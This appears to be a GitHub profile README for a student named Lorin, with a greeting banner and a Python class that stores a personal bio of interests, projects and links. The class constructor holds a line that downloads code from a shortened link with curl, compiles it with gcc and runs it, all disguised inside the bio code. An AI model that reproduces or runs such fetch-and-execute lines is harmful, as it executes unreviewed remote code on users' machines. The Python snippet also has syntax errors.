 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 I'm interested in'           : {'Art, *NIX customisation, Linux and BSD in general!'}
      '- 💼 I am a'                      : {'Senior high school student'},
      '- 🔭 I’m currently working on'    : {'My personal website'    : 'https://melorin4.github.io',
                                                             'cFetch': 'https://github.com/melorin4/cfetch'},
      '- 🌱 I’m currently learning'      : {'Python', 'Javascript', 'GDScript', 'Web Development', 'Godot Engine'},
      '- 💬 Ask me about'                : {'Linux', 'Art', 'Games', 'Books'}
      '- 👨‍💻 My art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ Fun fact'                    : ('I'm a Void Linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
